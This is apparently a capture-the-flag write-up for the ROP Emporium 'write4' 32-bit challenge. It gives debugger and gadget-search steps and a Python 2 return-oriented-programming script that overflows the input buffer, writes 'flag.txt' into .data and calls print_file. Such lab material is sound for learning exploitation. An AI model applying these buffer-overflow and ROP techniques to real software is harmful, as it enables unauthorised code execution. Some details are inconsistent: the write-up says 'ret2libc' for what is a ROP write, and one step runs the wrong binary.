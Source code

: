 [Challenge]:  https://ropemporium.com/challenge/write4.html
[Video Walkthrough]: https://www.youtube.com/watch?v=CanI14UyPbM
[PLT]: https://www.youtube.com/watch?v=kUk5pw4w0h4
[.data section]: https://www.youtube.com/watch?v=h4PNbc4SXMo
 *                ^specifically at 0:50
 * you have variable here that are initialized upon creation


### This use ret2libc

### Setup:
> 1. $ sudo apt install radare2
> 2. $ sudo apt install ropper

### Useful breakpoint when running binary in gdb
> `(gdb) break *(pwnme+146)`
* this is right before the binary reads the provided input
* might want to use `(gdb) next` to step over the read function

> `(gdb) break *(pwnme+176)`
* right before the `leave` instruction in `pwnme()`
* if done correctly you should be going to the what you entered

> `(gdb) break *(print_file)`
 * this function is entered if things function3ed correctly


[Steps]:
> 1.  $ radare2 write432
> 2.  [0xXXX]> aaaa
> 3.  [0xXXX]> afl
>     Excerpt:
>     `0x0804852a    1 25           sym.usefulFunction`
> 4.  [0xXXX]> s sym.usefulFunction
> 5.  [0xXXX]> pdf
> 6.  [0xXXX]> iS
>      Excerpt:
>      `23  0x00001000   0x18 0x0804a000   0x18 -rw- .got.plt`
>                               ^
> 7.  $ gdb callme32
> 8.  (gdb) run
> 9.  Enter this when prompted and press Enter:
>     aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
>     If using pwndbg, this string can be made: `pwndbg> cyclic 100`
> 10. Observe that the EIP register says `0x6161616c`. This is `laaa` in ASCII (remember this is Little Endian architecture so the bytes are backwards)
> 11. Calculate the offset (it's 44)
>     If using pwndbg, can find offset by: `pwndbg> cyclic -l laaa`
> 12. (gdb) disassemble usefulFunction
>     Excerpt:
>     `0x08048538 <+14>:	call   0x80483d0 <print_file@plt>`
>                                  ^
> 13. (gdb) disassemble usefulGadgets
>     Excerpt:
>     `0x08048543 <+0>:	mov    DWORD PTR [edi],ebp`
>      ^
>        OR
>     $ ropper -f write432 --search mov
>     Excerpt:
>     `0x08048543: mov dword ptr [edi], ebp; ret;`
>
> 14. (gdb) quit
> 15. $ readelf -S write432
>     Excpert:
>     `[24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4`
>                                             ^
> 16. $ ropper -f write432 --search pop
> 17. How to add hex numbers in bash:
>     `$ printf "0x%X\n" $((0x0804a018 + 0x4))`
> 18. exploit.py
```
#THIS PYTHON SCRIPT ONLY WORKS ON PYTHON2

# Gadgets
mov_gadget = "\x43\x85\x04\x08" # 0x08048543: mov dword ptr [edi], ebp; ret;
pop_gadget = "\xaa\x85\x04\x08" # 0x080485aa: pop edi; pop ebp; ret; 

# .data section
data_section = "\x18\xa0\x04\x08" # 0x0804a018
data_section_plus4 = "\x1c\xa0\x04\x08"  # 0x0804a01c
data_section_plus8 = "\x20\xa0\x04\x08"  # 0x0804a020
data_section_plus12 = "\x24\xa0\x04\x08" # 0x0804a024
data_section_plus16 = "\x28\xa0\x04\x08" # 0x0804a028

# target 'print_file' function
print_file = "\xd0\x83\x04\x08" # 0x80483d0


offset = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa"

# Start off with the offset
payload = offset

## Enter 'flag' into the .data section
payload += pop_gadget
payload += data_section
payload += "flag" # 4 characters cause this is 32 bits (4 bytes) and 1 char is 1 byte
payload += mov_gadget

## Enter '.txt' into the .data section
payload += pop_gadget
payload += data_section_plus4 # plus 4 so we don't overwrite the 4 bytes we just wrote
payload += ".txt" # 4 characters cause this is 32 bits (4 bytes) and 1 char is 1 byte
payload += mov_gadget

## Now that 'flag.txt' is in data, go to print_file function
payload += print_file
payload += pop_gadget
payload += data_section # where  'flag.txt' is


print(payload)
```
> 19. MUST BE PYTHON2!!!!
>     $ python exploit.py > payload
> 20. ./write432 < payload

[GDB Walkthrough]:
> `(gdb) break *(pwnme+146)`
> `(gdb) break *(pwnme+176)`





